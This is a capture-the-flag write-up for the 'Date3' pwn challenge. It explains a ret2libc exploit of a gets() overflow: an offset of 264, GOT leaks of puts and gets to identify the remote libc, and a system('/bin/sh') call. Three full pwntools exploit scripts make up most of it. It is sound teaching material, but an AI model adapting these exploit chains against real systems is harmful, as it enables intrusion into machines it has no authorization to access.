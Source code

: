 # Date3

```
Description
No more writable date path. Can you still pwn me?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So only nx is enabled and its an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)


We can see `gets()` is used so there is an buffer overflow. We cant overwrite `date_path` anymore. We can do ret2libc here, but we dont have the remote libc. 
But we can leak and find the libc online. I already explained ret2libc [here](https://github.com/0xM4hm0ud/CTF-Writeups/tree/main/corCTF/Chainblock). So I am not gonna deep dive into it.
So we first find our offset. The offset is 264. Lets find our `pop rdi` gadget. With `ldd ./vuln` you can find the local libc for your binary. Lets create our script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # locally

offset = 264
pop_rdi = 0x401283

io = start()

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
payload += p64(elf.sym['main'])

io.sendlineafter(b'date?\n', payload)
io.recvlines(2)

leaked_addr = u64(io.recv(6) + b'\x00\x00')
print('leaked puts() adress: ', hex(leaked_addr))

libc.address = leaked_addr - libc.symbols['puts']
print("libc address: ", hex(libc.address))

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(elf.symbols['system'])

io.sendlineafter(b'date?\n', payload)
io.clean()
io.interactive()
```
![img](images/local.jpg)

And we get our shell locally, but when running remotely it didnt work, because the libc is different. So lets leak values from remote to find the correct libc. 
So I am going to leak `puts` and `gets` address to be more accurate:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

offset = 264
pop_rdi = 0x401283

io = start()

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
payload += p64(elf.sym['main'])

io.sendlineafter(b'date?\n', payload)
io.recvlines(2)

leaked_addr = u64(io.recv(6) + b'\x00\x00')
print('leaked puts() adress: ', hex(leaked_addr))

io.interactive()

```
![img](images/leak.jpg)

And we leaked the remote `puts`, to leak the gets we just change:

```py
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
```

to:

```py
payload += p64(elf.got['gets']) 
payload += p64(elf.plt['puts']) 
```

So with those 2 leaks we find this libc on https://libc.rip/:

![img](images/libc.jpg)

So download it locally and finish the exploit:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # locally
libc = ELF('./libc6_2.31-0ubuntu9.7_amd64.so') # remotely

offset = 264
pop_rdi = 0x401283
ret = 0x40101a

io = start()

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts']) 
payload += p64(elf.plt['puts']) 
payload += p64(elf.sym['main'])

io.sendlineafter(b'date?\n', payload)
io.recvlines(2)

leaked_addr = u64(io.recv(6) + b'\x00\x00')
print('leaked puts() adress: ', hex(leaked_addr))

libc.address = leaked_addr - libc.symbols['puts']
print("libc address: ", hex(libc.address))

payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(ret)
payload += p64(elf.symbols['system'])

io.sendlineafter(b'date?\n', payload)
io.clean()
io.interactive()
```

And we got a shell and the flag:

![img](images/flag.jpg)
